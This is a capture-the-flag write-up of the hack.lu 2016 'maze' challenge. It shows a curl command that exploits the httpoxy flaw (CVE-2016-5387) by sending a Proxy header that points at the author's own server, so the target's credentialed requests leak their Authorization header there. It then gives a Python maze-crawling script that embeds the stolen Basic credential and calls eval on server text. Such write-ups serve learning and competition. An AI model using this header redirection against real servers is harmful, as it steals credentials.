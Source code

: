 ```yaml
---
layout: post
title: hack.lu CTF 2016 - maze
post_author: pagabuc
excerpt_separator: <!--more-->
---
```


This challenge is divided in two steps: bypass the authentication and
solving the maze.  The first one tooks us several hours and was at the
end solved by @invano.

The source code (https://cthulhu.fluxfingers.net:1507/code.php)
tell us the server is an `Apache/2.4.7-ubuntu4` which is vulnerable to
CVE-2016-5387, better known as `httpoxy`. <!--more-->
With this vuln Apache overwrites the environment variable
HTTP_PROXY with the content of the field 'Proxy' found in the
headers. And here's the problem: the function `queryURL` - which knows
the credentials - honors HTTP_PROXY, thus redirecting each request to
the location specified in HTTP_PROXY.

So we executed:
```bash
curl -v -H "Proxy: IP.OF.MY.SERVER:PORT" https://cthulhu.fluxfingers.net:1507/    
````
    
And on the server we received the request with the Authorization header set!
![Raw Image 1]( {{ site.baseurl }}/files/hacklu2016/maze/auth.png)
    
To get the flag now it's just a matter of solving the maze.

The idea is that each url represents a position in the maze. To see the
reachable positions from a given one, you have to resolve a very simple
captcha.

So what I did was to recursively explore each position, but paying
attention to skip a path if it was already visited (otherwise you can
enter an infinite loop). The script below implements the idea:

```python
#!/usr/bin/env python2

import sys
import requests
import re
from BeautifulSoup import BeautifulSoup
from collections import defaultdict

maps = defaultdict(list)
allurls = []
        
def get_and_solve(url):
    print "[+] Get and solve %s" % url
    header = {'Authorization': 'Basic c3VwM3JzM2NyM3R1czNyOm4wYjBkeWM0bmd1M3NteXA0c3N3MHJk'}

    r = requests.get(url, headers=header)
    print r.text
    if "NOT THE FLAG" in r.text:
        return ["NOT THE FLAG"]

    a = re.search("([0-9]* [+-/*]) [0-9]*", r.text).group(0)
    res = eval(a)
    #print "Solve %s = %d" % (a,res)
    payload = { 'result': res}

    r = requests.post(url, headers=header, data=payload)
    print r.text

    soup = BeautifulSoup(r.text)
    urls = []
    for a in soup.findAll('a', href=True):
        print "Dumping map of %s: %s" % ( url, maps[url])
        if a['href'] not in maps[url]:
            maps[url].append(a['href'])
            urls.append('https://cthulhu.fluxfingers.net:1507/%s' % a['href'])


    return urls


def explore(p, l):
    sys.stdout.flush()
    for u in l:
        # STATS
        if u not in allurls:
            allurls.append(u)
            print "Found new state (out of %d): %s" % (len(allurls),u)

        urls = get_and_solve(u)

        if "NOT THE FLAG" in urls:
            return
        else:
            explore(u, urls)


l = ['https://cthulhu.fluxfingers.net:1507/maze/j1dgu9uxkafajnvwo10w6j5bpwr42glm/iyfu5c4wf7w6ila0pfq4dlu7lf3rn8f1.php',
 'https://cthulhu.fluxfingers.net:1507/maze/t1xdtygdurka0vwo04vxovb9h4q91tw6/2zszieqld8ghxdm43nwi7t8wh93mxau4.php',
 'https://cthulhu.fluxfingers.net:1507/maze/7v2lt3k6xsnuqywv67fxwbsdzxxzunco/j6n7ye84mmdrs5dr4wbiw6y9ttz1jpfv.php',
 'https://cthulhu.fluxfingers.net:1507/maze/o25s1yq85a30u1hqoj6mpguy12o39f4i/bnbnylcs2td9a2ni5tgvhx56mgvgfgxw.php']
explore('start',l)
```

After 15min of prayers (it was 11.30am and the CTF was ending in
30minutes) the script found the exit of the maze and rewarded us with a 200+ points flag:
`FLAG{queried_g00d_y0u_h4v3}`.

